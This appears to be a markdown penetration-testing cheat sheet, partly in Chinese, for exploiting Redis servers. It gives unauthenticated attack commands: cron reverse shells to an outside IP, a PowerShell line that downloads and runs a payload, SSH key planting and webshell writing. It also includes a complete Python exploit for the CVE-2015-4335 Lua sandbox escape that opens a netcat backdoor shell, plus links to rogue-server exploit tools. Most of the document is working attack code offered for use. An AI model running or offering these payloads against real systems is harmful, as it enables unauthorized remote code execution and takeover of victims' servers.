

## Redis-cli

```bash
redis-cli -h host -p port -a passwd
	--raw	raw formatting
	-c		cluster mode
	--help
```

## Redis Basics

```bash
INFO
PING
Auth [passwd]
ECHO message
QUIT
SELECT index

set baconxxx "\nhacked"
	\nhacked
set bacon '\n'
	\\n
get baconxxx
del baconxxx
exists key
randomkey
keys [pattern]
rename key newkey
type key

# key不存在时创建
setnx key value

config get dir
config get dbfilename

slaveof host port
slaveof no one
# https://redis.io/commands/slaveof
migrate
MIGRATE host port key|"" destination-db timeout [COPY] [REPLACE] [AUTH password] [AUTH2 username password] [KEYS key [key ...]]
# https://redis.io/commands/migrate

CLUSTER MEET <ip> <port> <bus_port>
```

## Redis Unauth

```bash
# for BACKUP
CONFIG GET dir
CONFIG GET dbfilename

# cron reverse shell
set baconxxx "\n\n* * * * * bash -i >& /dev/tcp/192.168.77.37/4446 0>&1\n\n"
# "\n* * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n"
config set dir /var/spool/cron
config set dbfilename root
save
# bgsave
# dump the database to disk

# Windows startup [msf or cobalt strike]
config set dir "C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/"
config set dbfilename shell.bat
set x "\r\n\r\npowershell -windowstyle hidden -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://ip:port/msfvenom.ps1');msfvenom.ps1\"\r\n\r\n"
save

# ssh
ssh-keygen

set baconxxx "rsa.pub"
config set dir /root/.ssh
config set dbfilename authorized_keys

ssh -i rsa.priv root@ip

# webshell
set baconxxx "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
config set dir "C:/phpstudy/WWW"
#/var/www/html/
config set dbfilename baconxxx.php
```

## Redis Lua Sendbox Escape(CVE-2015-4335)

### Intro

#### eval&evalsha

EVAL and EVALSHA are used to evaluate scripts using the Lua interpreter built into Redis starting from version 2.6.0.

```bash
root@x:~# redis-cli
127.0.0.1:6379> eval "return {KEYS[1],KEYS[2],ARGV[1],ARGV[2]}" 2 key1 key2 first second
1) "key1"
2) "key2"
3) "first"
4) "second"
> eval "return redis.call('get','foo')" 0
"bar"
> evalsha 6b1bf486c81ceb7edf3c093f4c48582e38c0e791 0
"bar"
```

It is possible to call Redis commands from a Lua script using two different Lua functions:

```bash
1. redis.call()
127.0.0.1:6379> eval "return redis.call('set','foo','bar')" 0
OK
//The above script sets the key foo to the string bar. However it violates the EVAL command semantics as all the keys that the script uses should be passed using the KEYS array:
127.0.0.1:6379> eval "return redis.call('set',KEYS[1],'bar')" 1 foo
OK

2. redis.pcall()

redis.call() is similar to redis.pcall(), the only difference is that if a Redis command call will result in an error, redis.call() will raise a Lua error that in turn will force EVAL to return an error to the command caller, while redis.pcall will trap the error and return a Lua table representing the error.

## examples
> del foo
(integer) 1
> lpush foo a
(integer) 1
> eval "return redis.call('get','foo')" 0
(error) ERR Error running script (call to f_6b1bf486c81ceb7edf3c093f4c48582e38c0e791): ERR Operation against a key holding the wrong kind of value
> EVAL "return redis.pcall('get','foo')" 0
(error) ERR Operation against a key holding the wrong kind of value
```

http://www.redis.cn/commands/eval.html

#### Redis Sandbox

脚本应该仅仅用于传递参数和对 Redis 数据进行处理，它不应该尝试去访问外部系统(比如文件系统)，或者执行任何系统调用。

> 正常情况下，redis的lua引擎只允许执行call、pcall这2个api，不能执行复杂函数，这相当于一个lua sandbox，但是lua支持loadstring直接加载binary opcode字节码，而这种shellcode字节码可以逃过sandbox的限制，通过shellcode的方式可以直接动态获取到system这种敏感函数的地址

### Vuls Targets

Redis:

2.6.0(?) < 2.8.21

3.x < 3.0.2

### PoC

```bash
eval "return tostring(loadstring(string.dump(function() end)))" 0
# vul : "function: 0x7fdcd8439df0"
# patched : "nil"
```

### Exp

```python
#!/usr/bin/env python
# https://www.reddit.com/r/netsec/comments/4a93eo/analysis_of_vm_escape_by_using_lua_script/d0zcsgl

import sys
import time
import getopt
import socket

'''
Gives the hexadecimal representation of "command"
'''
def cmdtohex(command):
	pattern = "dwords_to_double(0x%s, 0x%s),"

	command = command.ljust(16, '\0')

	c1 = command[0:4][::-1].encode("hex")
	c2 = command[4:8][::-1].encode("hex")
	c3 = command[8:12][::-1].encode("hex")
	c4 = command[12:16][::-1].encode("hex")

	return (pattern % (c1, c2)) + (pattern % (c3, c4))


luacode1 = r'''eval 'local asnum = loadstring((string.dump(function(x) for i = x, x, 0 do return i end end):gsub("\96%z%z\128", "\22\0\0\128")))  local function double_to_dwords(x) if x == 0 then return 0, 0 end if x < 0 then x = -x end  local m, e = math.frexp(x)  if e + 1023 <= 1 then m = m * 2^(e + 1074) e = 0 else m = (m - 0.5) * 2^53 e = e + 1022 end  local lo = m % 2^32 m = (m - lo) / 2^32 local hi = m + e * 2^20  return lo, hi end  local function dwords_to_double(lo, hi) local m = hi % 2^20 local e = (hi - m) / 2^20 m = m * 2^32 + lo  if e ~= 0 then m = m + 2^52 else e = 1 end  return m * 2^(e-1075) end  local function dword_to_string(x) local b0 = x % 256; x = (x - b0) / 256 local b1 = x % 256; x = (x - b1) / 256 local b2 = x % 256; x = (x - b2) / 256 local b3 = x % 256  return string.char(b0, b1, b2, b3) end  local function qword_to_string(x) local lo, hi = double_to_dwords(x) return dword_to_string(lo) .. dword_to_string(hi) end  local function add_dword_to_double(x, n) local lo, hi = double_to_dwords(x) return dwords_to_double(lo + n, hi) end  local function band(a, b) local p, c=1, 0 while a > 0 and b > 0 do local ra, rb = a % 2, b % 2 if ra + rb > 1 then c = c + p end a, b, p = (a - ra) / 2, (b - rb) / 2, p * 2 end  return c end  rawset(_G, "add_dword_to_double", add_dword_to_double) rawset(_G, "asnum", asnum) rawset(_G, "double_to_dwords", double_to_dwords) rawset(_G, "dwords_to_double", dwords_to_double) rawset(_G, "dword_to_string", dword_to_string) rawset(_G, "qword_to_string", qword_to_string) rawset(_G, "band", band) collectgarbage "stop" debug.sethook()' 0'''
luacode2 = r'''eval 'coroutine.wrap(loadstring(string.dump(function() local magic = nil local function middle() local asnum = asnum local double_to_dwords = double_to_dwords local add_dword_to_double = add_dword_to_double local dwords_to_double = dwords_to_double local qword_to_string = qword_to_string local band = band local co = coroutine.wrap(function() end) local substr = string.sub local find = string.find local upval  local luastate1 = asnum(coroutine.running()) local luastate2 = add_dword_to_double(luastate1, 8)  local n1 = 1 local n2 = 2 local n4 = 4 local n6 = 6 local n7 = 7 local n8 = 8 local n16 = 16 local n24 = 24 local n32 = 32  local hfff = 0xfff00000 local h38 = 0x38  local PT_DYNAMIC = 2 local DT_NULL = 0 local DT_STRRAB = 5 local DT_SYMTAB = 6 local DT_DEBUG = 21  local libc = "libc.so." local system = "__libc_system" local null = "\0" local empty = "" local luastate1_bkp local luastate2_bkp local lo, hi local base local ptheader local dynamic local symbol local debug  local s, e, tmp, n local str = empty local link_map local libc_dynamic local libc_base local libc_system local libc_strtab local libc_symtab  local commands = { XXXCOMMANDSXXX }  local function put_into_magic(n) upval = "nextnexttmpaddpa" .. qword_to_string(n) local upval_ptr = qword_to_string(add_dword_to_double(asnum(upval), 24)) magic = upval_ptr .. upval_ptr .. upval_ptr end  put_into_magic(add_dword_to_double(asnum(co), n32))  lo, hi = double_to_dwords(asnum(magic)) base = dwords_to_double(band(lo, hfff), hi) put_into_magic(add_dword_to_double(base, n32))  lo, hi = double_to_dwords(asnum(magic)) ptheader = add_dword_to_double(base, lo)  while true do put_into_magic(ptheader) lo, hi = double_to_dwords(asnum(magic)) if lo == PT_DYNAMIC then put_into_magic(add_dword_to_double(ptheader, n16)) dynamic = asnum(magic) break else ptheader = add_dword_to_double(ptheader, h38) end end  while true do put_into_magic(dynamic) lo, hi = double_to_dwords(asnum(magic))  if lo == DT_DEBUG then put_into_magic(add_dword_to_double(dynamic, n8)) debug = asnum(magic) break else dynamic = add_dword_to_double(dynamic, n16) end end  put_into_magic(add_dword_to_double(debug, n8)) link_map = asnum(magic)  while true do  put_into_magic(add_dword_to_double(link_map, n8)) n = asnum(magic)  while true do put_into_magic(n) tmp = qword_to_string(asnum(magic))  s, e = find(tmp, null) if s then str = str .. substr(tmp, n1, s - n1) break else str = str .. tmp n = add_dword_to_double(n, n8) end end  s, e = find(str, libc) if s then put_into_magic(link_map) libc_base = asnum(magic)  put_into_magic(add_dword_to_double(link_map, n16)) libc_dynamic = asnum(magic)  while true do put_into_magic(libc_dynamic) lo, hi = double_to_dwords(asnum(magic)) put_into_magic(add_dword_to_double(libc_dynamic, n8))  if lo == DT_NULL then break elseif lo == DT_STRRAB then libc_strtab = asnum(magic) elseif lo == DT_SYMTAB then libc_symtab = asnum(magic) end  libc_dynamic = add_dword_to_double(libc_dynamic, n16) end  break else put_into_magic(add_dword_to_double(link_map, n24)) link_map = asnum(magic) end end  while true do put_into_magic(libc_symtab) lo, hi = double_to_dwords(asnum(magic))  n = add_dword_to_double(libc_strtab, lo) str = empty while true do put_into_magic(n) tmp = qword_to_string(asnum(magic))  s, e = find(tmp, null) if s then str = str .. substr(tmp, n1, s - n1) break else str = str .. tmp n = add_dword_to_double(n, n8) end end  if str and str == system then put_into_magic(add_dword_to_double(libc_symtab, n8)) lo, hi = double_to_dwords(asnum(magic)) libc_system = add_dword_to_double(libc_base, lo) break else libc_symtab = add_dword_to_double(libc_symtab, n24) end end  put_into_magic(add_dword_to_double(asnum(co), n32)) magic = libc_system put_into_magic(luastate1) luastate1_bkp = asnum(magic) put_into_magic(luastate2) luastate2_bkp = asnum(magic) for i=n1,#commands,n2 do put_into_magic(luastate1) magic = commands[i] put_into_magic(luastate2) magic = commands[i + n1] co() end put_into_magic(luastate1) magic = luastate1_bkp put_into_magic(luastate2) magic = luastate2_bkp end middle() end):gsub("(\100%z%z%z)....", "%1\0\0\0\1", 1)))()' 0'''

# First the victim listens on given port, receives "script", and saves it into
# a file named "a" ...
shellcmd1 = "nc -lpXXXPORTXXX >a"	# for Debian's netcat (with -p)
#shellcmd1 = "nc -l XXXPORTXXX >a"	# for Red Hat's netcat (without -p)

# ... then the victim sleeps, to make sure the script arrived, and executes the
# script.
shellcmd2 = "sleep 3 && sh a"

# This is the script that is sent to the target, and executed there
script = '''mknod /tmp/p p; /bin/sh 0</tmp/p|nc -lpXXXPORTXXX 1>/tmp/p'''	# for Debian's netcat (with -p)
#script = '''mknod /tmp/p p; /bin/sh 0</tmp/p|nc -l XXXPORTXXX 1>/tmp/p'''	# for Red Hat's netcat (without -p)

# Victim's IP address
target_ip = None
# The port victim will listen for "script", and further commands.
target_port = None

try:
	opts, args = getopt.getopt(sys.argv[1:],"hi:p:",["ip=","port="])
except getopt.GetoptError:
	print 'Usage: redis_rce_poc_linux.py -i <target IP> -p <target port>'
	sys.exit(1)

for opt, arg in opts:
	if opt == '-h':
		print 'Usage: redis_rce_poc_linux.py -i <target IP> -p <target port>'
		sys.exit()
	elif opt in ("-i", "--ip"):
		target_ip = arg
	elif opt in ("-p", "--port"):
		target_port = arg

if (target_ip is None) or (target_port is None):
	print 'Options "target IP" and "target port" are mandatory!'
	print 'Usage: redis_rce_poc_linux.py -i <target IP> -p <target port>'
	sys,exit(2)

shellcmd1 = shellcmd1.replace("XXXPORTXXX", target_port)
script = script.replace("XXXPORTXXX", target_port)

commands = cmdtohex(shellcmd1) + cmdtohex(shellcmd2)
luacode2 = luacode2.replace("XXXCOMMANDSXXX", commands)


# send the exploit code
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, 6379))
s.send(luacode1)
s.send("\n\n")
s.send(luacode2)
s.send("\n\n")
s.close()

#send the script
time.sleep(1)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, int(target_port)))
s.send(script)
s.close()

# Python could be used to send commands and receive restults,
# but recv'ing all the data is a hassle, so its easier to just
# use netcat.
time.sleep(5)
print "Backdoor should be listening now, you can connect" + \
	" to " + target_ip + " " + target_port

'''
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, int(target_port)))
while True:
	input = raw_input('> ')
	if input == 'quit':
		break
	s.send(input + "\n")
	print s.recv(8192)
s.close()
'''
```

### Ref

https://cloud.tencent.com/developer/news/256777

## Redis Master-Slave

### Why master-slave

> Redis是一个使用ANSI C编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。但如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

### Techniques

data retrieval:


sync:

  

modules:



pwned:  

     

### Exp

rouge server & linux so

https://github.com/n0b0dyCN/redis-rogue-server

linux so

https://github.com/puckiestyle/RedisModules-ExecuteCommand

windows dll

https://github.com/0671/RedisModules-ExecuteCommand-for-Windows

https://paper.seebug.org/975/#getshell_1

## Redis >5.0

Redis >5.0, `script debug yes`中不能使用config

  

  

  


## redis-cluster

When node loses all its slots, it becomes slave and can be pwned with previous techniques.

  

## redis-sentinel

> Redis Sentinel provides high availability for Redis. Redis Sentinel also provides other collateral tasks such as monitoring, notifications and acts as a configuration provider for clients. Sentinels by default run listening for connections to TCP port 26379

  

  

but, sentinel没有 aliases *POST* and *HOST* to *QUIT* 可结合ssrf.


# Reference

https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
